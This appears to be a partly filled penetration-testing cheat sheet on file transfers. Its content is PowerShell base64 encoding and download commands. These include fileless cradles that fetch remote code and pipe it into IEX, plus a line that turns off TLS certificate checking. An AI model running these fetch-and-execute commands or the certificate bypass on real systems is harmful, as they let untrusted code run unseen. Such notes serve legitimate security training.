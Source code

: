 # File Transfers
## References and Links
[Harmj0y Powershell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## Linux File Transfers
## Windows File Transfers
### PowerShell Base64 Encode/Decode
```powershell
#Base64 Encode
[Convert]::ToBase64String((Get-Content -path "File_to_Encode" -Encoding byte))
#Base64 Decode
[IO.File]::WriteAllBytes("Output_File", [Convert]::FromBase64String("Base64_Encoded_Payload"))
```
### PowerShell Web Downloads
1. Files vs. Fileless  
a. Files = Download and save the file  
b. Fileless = Download and execute without saving the file 
```powershell
# File Download Example
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

# Fileless Download Example
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
# We can also pipe the input directly into IEX
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
``` 
Powershell v3.0 and later can use Invoke-WebRequest(by default is aliased to ```iwr```,```curl```, and ```wget```)
```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output_File_Name>
```
**Common Errors with Powershell**
Internet Explorer first-launch configuration not being completed will prevent downloads. To bypass, use ```-UseBasicParsing```
```Powershell
Invoke-WebRequest <Target file URL> -UseBasicParsing | IEX
```
SSL/TLS secure channel throws an error if the certificate is not trusted.  
Bypass:
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads

## Transferring with Code
## Misc File Transfer Methods
## Catching files over HTTP/S
